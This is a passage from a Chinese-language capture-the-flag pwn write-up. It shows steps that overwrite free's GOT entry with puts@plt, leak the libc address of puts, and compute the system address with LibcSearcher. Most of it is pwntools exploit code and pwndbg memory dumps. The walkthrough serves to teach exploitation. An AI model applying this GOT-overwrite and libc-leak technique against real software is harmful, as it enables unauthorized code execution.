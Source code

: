 在global[1]处确实写入了free的got表地址

**第5步**：因为要泄露地址，所以做的第一步就是要有导致泄露的函数，即puts输出函数。即向指向free函数的got表地址中写入puts函数的plt地址

```
#因为上面payload的写入，此时global[1]中存储的地址是free_got的地址
#向指向free函数的got表地址中写入puts函数的plt地址
edit(1,len(p64(puts_plt)),p64(puts_plt))
```

执行完后查看

```
pwndbg> x /20gx 0x602138
0x602138:	0x6161616161616161	0x6161616161616161
0x602148:	0x0000000000602018	0x0000000000602020
0x602158:	0x0000000000602088	0x0000000000000000
0x602168:	0x0000000000000000	0x0000000000000000
0x602178:	0x0000000000000000	0x0000000000000000
0x602188:	0x0000000000000000	0x0000000000000000
0x602198:	0x0000000000000000	0x0000000000000000
0x6021a8:	0x0000000000000000	0x0000000000000000
0x6021b8:	0x0000000000000000	0x0000000000000000
0x6021c8:	0x0000000000000000	0x0000000000000000

pwndbg> x /20gx 0x0000000000602018
0x602018 <free@got.plt>:	0x0000000000400760	0x00007f40196af5d0          //got表中的地址发生了改变
0x602028 <fread@got.plt>:	0x00007f40196ae0e0	0x0000000000400786
0x602038 <__stack_chk_fail@got.plt>:	0x0000000000400796	0x00007f40196957b0
0x602048 <alarm@got.plt>:	0x00007f401970b7d0	0x00007f4019660740
0x602058 <fgets@got.plt>:	0x00007f40196ada80	0x00007f4019676ea0
0x602068 <__gmon_start__@got.plt>:	0x00000000004007f6	0x00007f40196c3550
0x602078 <fflush@got.plt>:	0x00007f40196ad750	0x00007f4019676e90
0x602088 <atoi@got.plt>:	0x00007f4019676e70	0x0000000000000000
0x602098:	0x0000000000000000	0x0000000000000000
0x6020a8:	0x0000000000000000	0x0000000000000000

pwndbg> x /20gx 0x0000000000400760
0x400760 <puts@plt>:	0x0168002018ba25ff	0xffffffd0e9000000     //查看一下，我们正确的写入了puts的plt表地址
0x400770 <fread@plt>:	0x0268002018b225ff	0xffffffc0e9000000
0x400780 <strlen@plt>:	0x0368002018aa25ff	0xffffffb0e9000000
0x400790 <__stack_chk_fail@plt>:	0x0468002018a225ff	0xffffffa0e9000000
0x4007a0 <printf@plt>:	0x05680020189a25ff	0xffffff90e9000000
0x4007b0 <alarm@plt>:	0x06680020189225ff	0xffffff80e9000000
0x4007c0 <__libc_start_main@plt>:	0x07680020188a25ff	0xffffff70e9000000
0x4007d0 <fgets@plt>:	0x08680020188225ff	0xffffff60e9000000
0x4007e0 <atoll@plt>:	0x09680020187a25ff	0xffffff50e9000000
0x4007f0 <__gmon_start__@plt>:	0x0a680020187225ff	0xffffff40e9000000
```

**第6步**：free(2)

```
#正常来讲，free(2)表示free chunk2，此时chunk2的地址，即global[2]存储的是puts函数的got表地址
#由于往free的got表中写入了puts函数的plt地址，故在执行free(2)的时候会执行puts(puts@got)
free(2)
#接收puts函数的真实地址
puts_real = u64(s.recvuntil('\x7f')[-6:]+'\x00\x00')
#puts_real = u64(s.recvuntil('\nOK\n', drop=True).ljust(8, '\x00'))
log.success("Puts_real:"+hex(puts_real))

#本来给了libc，但是没打通本地，故使用一下LibcSearcher
libc = LibcSearcher('puts',puts_real)
offset = puts_real - libc.dump('puts')
log.success("Offset:"+hex(offset))
system_addr = libc.dump('system')+offset
log.success("System_addr:"+hex(system_addr))
```